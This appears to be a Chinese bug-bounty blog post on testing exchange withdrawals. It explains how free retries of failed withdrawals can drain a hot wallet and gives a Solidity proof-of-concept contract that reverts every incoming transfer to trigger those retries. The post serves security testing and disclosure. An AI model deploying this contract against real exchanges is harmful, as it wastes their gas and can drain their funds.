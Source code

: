```yaml
---
title: "中心化交易所提现测试-Gas消耗测试"
date: 2023-06-29T0:18:30-04:00
categories:
  - blog
tags:
  - BugBounty
---
```


## 中心化交易所提现测试-Gas消耗测试

在测试提现功能的时候，需要留意下如果提现失败的场景，用户是否需要继续重新支付Gas Fee，如果需要重新支付Gas Fee的情况，那就没问题；如果是无需用户重新支付Gas Fee的情况就需要注意了，之前在挖掘漏洞的过程中就遇到过类似的情况，提现的时候只收了一次Gas Fee，提现的交易被合约回退了以后，交易所还会继续尝试提现（此时Gas Fee由交易所自己出），这种设计可能会导致热钱包资金被耗尽。

Poc:
```
pragma solidity ^0.8.0;


contract Burn{
    address private owner ;
    constructor() payable{
        owner = msg.sender;
    }


    function transferEth(address payable _addr,uint256 _value) external payable{
        require(owner == msg.sender,"!owner!");
        _addr.transfer(_value);
    }


    fallback() payable external{
        revert();
    }
    receive() payable external {
        revert();                          
    }
}

```
